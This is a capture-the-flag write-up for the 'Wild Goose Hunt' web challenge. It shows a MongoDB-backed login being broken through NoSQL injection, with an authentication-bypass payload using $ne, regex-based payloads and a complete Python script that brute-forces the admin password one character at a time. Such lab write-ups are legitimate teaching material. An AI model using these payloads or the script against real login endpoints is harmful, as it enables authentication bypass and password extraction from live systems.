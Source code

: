 ## Wild Goose Hunt

> Solved by : thewhiteh4t

* We have a cool login page and source of the web app for this one
* entrypoint.sh contains the following :

```bash
    #!/bin/ash
    
    # Secure entrypoint
    chmod 600 /entrypoint.sh
    mkdir /tmp/mongodb
    mongod --noauth --dbpath /tmp/mongodb/ &
    sleep 2
    mongo heros --eval "db.createCollection('users')"
    mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
    /usr/bin/supervisord -c /etc/supervisord.conf
```

* we can see that the flag is being stored as the password of admin
* we need to somehow extract the password
* since its mongoDB first assumption was to check for NoSQL injection
* Here is the error message we get in burp for a normal attempt

![](https://i.imgur.com/P2my3g3.png)

* Lets switch to repeater here

![](https://i.imgur.com/miWWAps.png)

* so we are getting a json response and the message is being displayed in the frontend
* next i tried some basic payloads for NoSQL injection

```
username[$ne]=lol&password[$ne]=lol
```

![](https://i.imgur.com/H6Da6q7.png)

* Authentication bypassed! but we dont get any functionality in the frontend so i proceeded with more payloads

```
username=admin&password[$regex]=A*
```

![](https://i.imgur.com/NCoQigL.png)

* This is an interesting payload because we can use a wildcard to check if a particular character is present in the password or not! 
* we know that the flag is the password and flag begins with `CHTB{` so I tried that next

```
username=admin&password[$regex]=CHTB{.*
```

![](https://i.imgur.com/6ya2cBg.png)

* And it works again!
* Now we can bruteforce characters and check for success message to get correct characters
* I created a small python script for it

```python
    #!/usr/bin/env python3
    #################################
    ## Author    : thewhiteh4t ######
    ## Challenge : Wild Goose Hunt ##
    #################################
    import json
    import requests
    ip = '138.68.187.25'
    port = 31370
    url = f'http://{ip}:{port}/api/login'
    flag = 'CHTB{'
    charset = '_01234abcdefghijklmnopqrstuvwxyz'
    loop_iter = 1
    while flag.endswith('}') == False:
        for char in charset:
            if loop_iter == 1:
                payload = flag + char + '.*'
            else:
                payload = flag + '}'
            data = {
                'username': 'admin',
                'password[$regex]': payload
            }
            try:
                rqst = requests.post(url, data=data)
            except Exception as e:
                print(f'[-] Exception : {e}')
                exit()
            if rqst.status_code == 200:
                resp = rqst.text
                json_resp = json.loads(resp)
                status = json_resp['logged']
                if status == 1:
                    if payload.endswith('}') == False:
                        flag = payload.replace('.*', '')
                    else:
                        flag = payload
                        print(f'FLAG : {flag}')
                        exit()
                    print(f'FLAG : {flag}')
                    loop_iter = 0
                    break
            else:
                print(f'[-] Error : {rqst.status_code}')
        loop_iter += 1
```

![](https://i.imgur.com/6L20wKy.png)
